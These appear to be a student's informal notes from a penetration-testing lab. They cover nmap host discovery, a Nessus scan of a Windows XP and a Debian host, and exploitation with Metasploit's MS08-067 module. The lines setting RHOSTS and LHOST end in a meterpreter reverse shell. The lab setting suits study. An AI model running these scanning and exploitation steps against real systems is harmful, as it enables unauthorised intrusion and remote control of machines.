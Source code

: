 #Nessus Lab 
#RCM 8/21
Description

In this lab you will have to use and configure Nessus in order to perform a vulnerability scan against the target machine. However you are not told where the target machine is in the network. You only know it is in the same lab network you are connected to.
Goal

The goal of this lab is to learn how to properly configure Nessus depending on the services running on the target machine.

#Tools
Nmap
Nessus
Metasploit

#Steps
Find a target in the network
Target Subnet: 192.168.99.70/24

Since we do not have any information about our lab network and the hosts attached to it, the first step is to find our target!
Identify the target role
Initial nmap scan `sudo nmap -sn 192.168.99.70/24`
Initial nmap scan results: two hosts up. `192.168.99.50` and `192.168.99.70`
Enumerate more to have one host.
`sudo nmap -sS -sV -O 192.168.99.50,70 -oN morenmap.txt`
-O to know which plugins to use in nessus. 
-sV for service versions
-sS for more info, both hosts responded to syn scan.
`192.168.99.50` running Windows XP
`192.168.99.70` running Debian Linux 2.6.32

Now that we know there is a host on the target network, let us scan the host and gather as much information as we can in order to properly configure the Nessus scan.
Configure Nessus and run the scan:
In Nessus: New Policy>Advanced Scan>Plugins(maybe try all and see)despite knowing we're working with Windows and Linux hosts. 
My Scans>New Scan>User Defined> Nessus_Lab> Targets: `192.168.99.50,70`>Save>Launch
It did take two minutes to run though.
You should have identified few services running on the machine. Configure a new Nessus policy and scan depending on the scan results of the previous step.
Analyze and export the scan results
Nessus Scan results for `192.168.99.50`
There are 20 vulnerabilities
One critical vuln: Microsoft Windows XP Unsupported Installation Detection.
It looks like the eternal blue exploit lolz. nice.
`MS17-010` `Eternal Blue`
Once the scan completes, open the results and analyze them. You will find something very interesting! Moreover export the scan results, you may need them!
[OPTIONAL] Exploit the machine
#Exploitable with:
Metasploit (MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
#this didn't work
The ms08-067 Microsoft Server Service Relative....did
The target machine has few critical vulnerabilities. Once you finish studying the Metasploit module, start the lab over again and try to exploit the machine.

#Let's try our metasploit again hehe
Search ms17-010
Use 0
Default payload?
Options > set RHOSTS 192.168.99.50
set LHOST > (use tap0 config) 192.168.99.71
(not sure if port matters?) also not sure what payload to use.. 

Search ms08-067
use 0
set RHOSTS 
set LHOST
use. 
Got meterpreter reverse shell. yay!
